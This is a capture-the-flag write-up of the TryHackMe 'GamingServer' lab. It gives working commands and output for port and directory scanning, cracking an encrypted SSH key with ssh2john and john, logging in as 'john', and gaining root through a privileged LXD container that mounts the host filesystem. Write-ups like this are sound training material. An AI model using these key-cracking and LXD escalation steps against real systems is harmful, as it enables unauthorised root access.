







# GamingServerWriteup

Try Hack Me Writeup — GamingServer
[Link to try hack me of GamingServer room](https://tryhackme.com/room/gamingserver) 

Hello Guys , I am Vishal Kumar. My username on THM is “vishack56”.

## STEP 1:

Port Scan: Running NMAP full port scan on it , we get

~~~bash
root@vish:~/TryHackMe# nmap -sC -sV -p- -T4 10.10.246.20
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-31 16:33 IST
Nmap scan report for 10.10.246.20
Host is up (0.20s latency).
Not shown: 65531 closed ports
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp    open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
29926/tcp filtered unknown
50976/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1044.51 seconds
~~~ 

Visiting the 80 port on browser we see a "House of Danak" page. There is something interesting in its source code which is :
"john, please add some actual content to the site! lorem ipsum is horrible to look at."

### john must be the username.

## STEP 2:

Running gobuster:
~~~ 
gobuster dir -u http://10.10.246.20/ --wordlist /home/security/SecLists/Discovery/Web-Content/common.txt

/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/[[hidden-text]] (Status: 200)
/[[hidden-text]] (Status: 301)
/[[hidden-text]] (Status: 403)
/[[hidden-text]] (Status: 301)

~~~ 
 
 
 
## STEP 3:
 
 Visiting the hidden directoory, we get dict.lst file which I assume is some sort of wordlist.
 
 
 
 and another hidden directory contains encrypted SSH key:
 
 

## STEP 4:
 
 Since the RSA key is encrypted we’ll use ssh2john and john to crack the hash. I saved the hash as id_rsa.

~~~bash 
root@vish:~/TryHackMe/GamingServer# nano id_rsa
root@vish:~/TryHackMe/GamingServer# /usr/share/john/ssh2john.py id_rsa > id_rsa_hash
root@vish:~/TryHackMe/GamingServer# john --wordlist=dict.lst id_rsa_hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
[[hidden-password]]          (id_rsa)
1g 0:00:00:00 DONE (2020-08-31 17:04) 4.000g/s 888.0p/s 888.0c/s 888.0C/s 2003..starwars
Session completed

~~~ 

 

## STEP 5:

SSH Login :

~~~bash

root@vish:~/TryHackMe/GamingServer# chmod 600 id_rsa
root@vish:~/TryHackMe/GamingServer# ssh -i id_rsa john@10.10.246.20
load pubkey "id_rsa": invalid format
The authenticity of host '10.10.246.20 (10.10.246.20)' can't be established.
ECDSA key fingerprint is SHA256:LO5bYqjXqLnB39jxUzFMiOaZ1YnyFGGXUmf1edL6R9o.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.246.20' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Aug 31 11:49:55 UTC 2020

  System load:  0.0               Processes:           97
  Usage of /:   41.1% of 9.78GB   Users logged in:     0
  Memory usage: 32%               IP address for eth0: 10.10.246.20
  Swap usage:   0%

0 packages can be updated.
0 updates are security updates.

Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10

john@exploitable:~$ cat user.txt
[[hidden-user-flag]]
~~~ 

  

## STEP 6:

Privilege Escalation

~~~bash
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
~~~ 

LXD seems interesting, after enumerating this I got a technique to escalate provilege from https://www.hackingarticles.in/lxd-privilege-escalation/

Following the steps of this article and the machine is rooted.

In Local machine:
First Download the "build alpine" from : https://github.com/saghul/lxd-alpine-builder.git
Go to the lxd-alpine-builder directory and run "build-alpine" by ./build-alpine
On running the above command, a tar.gz file is created.
Transfer that file in the host machine into /tmp

and run the following commands one by one:

- lxc image import ./alpine-v3.12-x86_64-20200831_1326.tar.gz --alias myimage
- lxc image list
- lxc init myimage ignite -c security.privileged=true
- lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
- lxc start ignite
- lxc exec ignite /bin/sh

john@exploitable:/tmp$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)

~~~bash
/mnt/root/root # cat root.txt
[[hidden-root-flag]]
/mnt/root/root #
~~~ 
  
### Thanks for reading this.